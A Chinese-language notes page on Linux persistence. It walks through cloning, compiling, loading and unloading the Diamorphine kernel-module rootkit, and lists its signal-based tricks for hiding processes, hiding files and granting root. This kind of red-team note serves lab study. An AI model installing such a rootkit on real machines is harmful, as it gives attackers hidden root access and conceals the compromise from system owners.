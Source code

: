 ```yaml
---

---
```


# Linux权限维持


## Diamorphine

> [m0nad/Diamorphine：适用于 Linux 内核 2.6.x/3.x/4.x/5.x/6.x（x86/x86_64 和 ARM64）的 LKM rootkit） --- m0nad/Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x/6.x (x86/x86_64 and ARM64) (github.com)](https://github.com/m0nad/Diamorphine)

Diamorphine 是适用于 Linux 内核 2.6.x/3.x/4.x/5.x/6.x（x86/x86_64 和 ARM64）的 LKM rootkit。

----

### Feature

- 加载后，模块开始不可见
- 通过发送信号31来隐藏/取消隐藏任何进程
- 发送信号 63（到任何 pid）使模块变得可见（不可见）
- 发送信号 64（到任何 pid）使给定用户成为 root
- 以 MAGIC_PREFIX 开头的文件或目录变得不可见

---

### 安装

验证内核是否为 `2.6.x/3.x/4.x/5.x`:

```bash
uname -r
```

![image-20240925181143578](http://cdn.ayusummer233.top/DailyNotes/202409251811742.png)

Clone 存储库:

```bash
git clone https://github.com/m0nad/Diamorphine
```

![image-20240925184936216](http://cdn.ayusummer233.top/DailyNotes/202409251849295.png)

编译:

```bash
cd Diamorphine
make
```

![image-20240925184958630](http://cdn.ayusummer233.top/DailyNotes/202409251849675.png)

以 root 身份加载模块

```bash
su root
insmod diamorphine.ko
```

![image-20240925185037670](http://cdn.ayusummer233.top/DailyNotes/202409251850709.png)

---

#### 提权

发送信号 64（到任何 pid）使给定用户成为 root

![image-20240925185226264](http://cdn.ayusummer233.top/DailyNotes/202409251852318.png)

---

### 卸载

模块开始时不可见，所以要删除此模块的话需要先使其可见

```bash
kill -63 0
```

然后删除模块（以root身份）

```bash
rmmod diamorphine
```



